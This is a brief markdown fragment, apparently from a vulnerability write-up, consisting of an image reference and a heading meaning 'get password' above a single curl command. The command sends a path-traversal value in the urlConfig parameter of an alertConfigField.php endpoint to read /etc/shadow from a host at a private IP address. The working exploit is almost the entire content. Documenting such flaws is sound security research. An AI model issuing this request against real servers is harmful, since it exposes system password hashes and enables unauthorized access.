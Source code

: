 ![image-20230428012104554](./assets/image-20230428012104554.png)





获取密码：

```shell
curl -s --data-urlencode urlConfig=../../../../../../../../../etc/shadow http://192.168.125.138/administrator/alerts/alertConfigField.php
```
